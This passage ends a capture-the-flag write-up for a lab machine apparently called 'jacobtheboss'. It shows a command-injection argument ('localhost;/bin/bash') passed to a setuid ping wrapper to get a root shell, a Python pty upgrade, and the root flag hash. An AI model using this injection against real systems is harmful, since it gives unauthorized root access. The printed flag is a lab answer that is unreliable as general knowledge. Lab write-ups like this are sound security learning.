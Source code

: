~~~
$ /usr/bin/pingsys "localhost;/bin/bash"
~~~

I ran it to go root and also spawned a TTY shell:

~~~
[jacob@jacobtheboss ~]$ /usr/bin/pingsys "localhost;/bin/bash"
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.017 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.030 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.031 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.031 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 0.017/0.027/0.031/0.007 ms
id
uid=0(root) gid=1001(jacob) groups=1001(jacob) context=system_u:system_r:initrc_t:s0
python -c "import pty;pty.spawn('/bin/bash')"
[root@jacobtheboss /]#
~~~

## Root flag

Now we can head to `/root` and read `root.txt`:

~~~
[root@jacobtheboss /]# cd /root
[root@jacobtheboss root]# ls
anaconda-ks.cfg  jboss.sh  original-ks.cfg  root.txt
[root@jacobtheboss root]# cat root.txt
29a5641eaa0c01abe5749608c8232806
~~~

root.txt: `29a5641eaa0c01abe5749608c8232806`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )